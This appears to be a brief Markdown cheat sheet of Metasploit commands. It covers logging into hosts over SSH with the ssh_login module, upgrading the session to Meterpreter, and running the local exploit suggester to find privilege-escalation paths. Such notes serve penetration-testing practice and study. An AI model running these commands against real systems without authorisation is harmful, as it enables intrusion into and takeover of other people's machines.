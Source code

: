 # Metasploit
### Meterpreter over SSH
1. `use auxiliary/scanner/ssh/ssh_login`
2. Set params-  `rhosts, username, password`
3. `exploit`
4. Convert shell to meterpereter - `sessions -u 1`

### Privesc suggester
* In meterpreter session - `run post/multi/recon/local_exploit_suggester`
  * Append `SHOWDESCRIPTION=true` for more info
